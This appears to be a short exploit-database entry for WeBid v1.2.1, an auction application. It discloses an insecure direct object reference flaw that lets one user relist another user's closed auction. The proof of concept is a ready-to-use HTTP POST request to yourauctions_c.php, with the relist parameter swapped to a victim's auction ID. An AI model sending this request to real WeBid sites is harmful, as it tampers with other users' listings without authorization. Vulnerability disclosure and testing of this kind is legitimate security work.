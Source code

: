 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to relist a closed auction that is owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /yourauctions_c.php HTTP/1.1
...

csrftoken=78899377e1baac0dedb6f939e65ffad9&relist%5B%5D=7(CHANGE HERE)&action=update&Submit=Process+selected+auctions
```